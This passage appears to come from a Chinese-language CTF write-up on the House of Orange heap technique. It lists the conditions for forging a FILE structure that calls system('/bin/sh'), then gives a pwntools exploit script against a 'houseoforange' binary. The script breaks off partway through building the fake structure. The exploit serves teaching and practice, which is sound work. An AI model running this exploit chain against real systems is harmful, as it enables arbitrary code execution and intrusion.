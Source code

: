 ```shell
```
在汇编层面查看,只需在`file+0xe8`处，也即是下面结构体中的`_free_buffer`处，放好`system`,在`_IO_buf_base`处放置`/bin/sh\x00`就能获取shell.
综上需要满足。
* top的bk为 `libc.sym["_IO_list_all"]-0x10` 即 `_IO_read_base = `为`libc.sym["_IO_list_all"]-0x10`
* `fp->_mode <= 0` 直接不用改,等于零
* `fp->_IO_write_ptr > fp->_IO_write_base` 
* vtable = `_IO_str_jumps + 0x8`
* `(fp->_flags & 1) = 0`即`fp->_flags`是偶数
* `fake_file + 0xe8 = system_addr`
* `fp->_IO_buf_base = binsh_addr`
## EXP
```c
#!/usr/bin/env python
from pwn import *

# context.log_level = "debug"
s = lambda buf: p.send(buf)
sl = lambda buf: p.sendline(buf)
sa = lambda delim, buf: p.sendafter(delim, buf)
sal = lambda delim, buf: p.sendlineafter(delim, buf)
sh = lambda: p.interactive()
r = lambda n=None: p.recv(n)
ra = lambda t=tube.forever:p.recvall(t)
ru = lambda delim: p.recvuntil(delim)
rl = lambda: p.recvline()
rls = lambda n=2**20: p.recvlines(n)

p = process("./houseoforange")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
def add(size,name):
	sal("Your choice : ","1")
	sal("Length of name :",str(size))
	sal("Name :",name)
	sal("Price of Orange:",str(0x10))
	sal("Color of Orange:",str(1))
def show():
	sal("Your choice : ","2")
def edit(size,name):
	sal("Your choice : ","3")
	sal("Length of name :",str(size))
	sal("Name:",name)
	sal("Price of Orange:",str(0x10))
	sal("Color of Orange:",str(1))
def file():
	file= p64(0)                       #_flags
	file+=p64(0x61)                       #_IO_read_ptr
	file+=p64(0)                       #_IO_read_end
	file+=p64(libc.sym["_IO_list_all"]-0x10)                       #_IO_read_base
	file+=p64(0)                       #_IO_write_base
	file+=p64(1)                       #_IO_write_ptr
	file+=p64(0)                       #_IO_write_end
	file+=p64(libc.search("/bin/sh\x00").next())        #_IO_buf_base
	file+=p64(0)                       #_IO_buf_end
	file+=p64(0)                       #_IO_save_base
	file+=p64(0)                       #_IO_backup_base
	file+=p64(0)                       #_IO_save_end
	file+=p64(0)                       #_markers
	file+=p64(0)                       #chain   could be a anathor file struct
	file+=p32(0)                       #_fileno
	file+=p32(0)                       #_flags2
	file+=p64(0)                       #_old_offset
```